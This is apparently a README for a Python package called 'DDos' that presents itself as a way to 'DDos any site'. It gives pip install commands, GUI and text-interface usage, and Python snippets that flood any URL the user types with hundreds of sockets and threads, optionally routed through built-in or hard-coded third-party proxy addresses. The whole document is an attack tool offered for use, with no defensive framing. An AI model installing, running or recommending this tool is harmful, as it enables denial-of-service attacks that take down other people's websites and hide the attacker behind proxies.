 # DDos

DDos any site using python

## Install

### From Pypi

`pip3 install DDos`

### From GitHub

`pip3 install git+https://github.com/donno2048/DDos`

## Usage

### GUI

To use it just run:

```sh
DDos
```

or

```sh
ddos
```

in the terminal to launch the GUI (tkinter is a requirement for the GUI so use: `sudo apt-get update && sudo apt-get install python3-tk -y` on linux and on Windows it's already installed)

### TUI

To use the text-based user interface see this python example:

```py
from DDos import checkUrl, DDos # import the needed functions
while True:
    url = input("Give me a URL: ") # get a url from the user
    if checkUrl(url): break # if it's formatted correctly exit the loop
    else: print("This URL isn't formatted correctly, try again") # else, go back
DDos(url, sockets = 400, threads = 10, use_proxies = True) # ddos this url with 400 sockets and 10 threads and use the built-it proxies
```

or simply:

```py
from DDos import DDos
DDos(input("Give me a URL: ")) # if the url isn't formatted correctly it will have an assertion error, use 500 sockets and 10 threads, no proxies will be used
```

The DDos function has also a `custom_proxies` optional variable and there is a `checkProxy` function, you can use them like so:

```py
from DDos import DDos, checkProxy
assert checkProxy("109.237.91.155:8080")
assert checkProxy("178.128.37.176:80")
DDos(input("Give me a URL: "), use_proxies = True, custom_proxies = ["109.237.91.155:8080", "178.128.37.176:80"])
```

If you give an invalid proxy you will get an assertion error.
